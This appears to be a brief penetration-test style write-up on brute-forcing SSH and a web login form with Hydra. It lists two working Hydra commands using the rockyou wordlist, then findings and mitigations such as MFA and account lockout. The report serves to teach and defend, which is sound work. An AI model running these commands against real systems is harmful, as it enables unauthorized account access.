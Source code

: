# Brute Force Attack with Hydra

## Overview
Brute-force attacks were conducted against **SSH and web login portals** to gain unauthorized access by attempting multiple username-password combinations.

## Commands Used
```bash
# Brute-force SSH credentials
hydra -l admin -P rockyou.txt ssh://192.168.1.100

# Brute-force web login page
hydra -l admin -P rockyou.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:Incorrect password"
```
## Findings
1. Weak passwords were used for SSH and web application admin accounts.
2. The login portal had no account lockout mechanism, allowing unlimited login attempts.

## Mitigation Strategies
1. Enforce strong password policies with complexity requirements.
2. Implement multi-factor authentication (MFA) for all admin accounts.
3. Apply account lockout policies to block repeated failed login attempts.
4. Restrict SSH access to trusted IP addresses using firewall rules.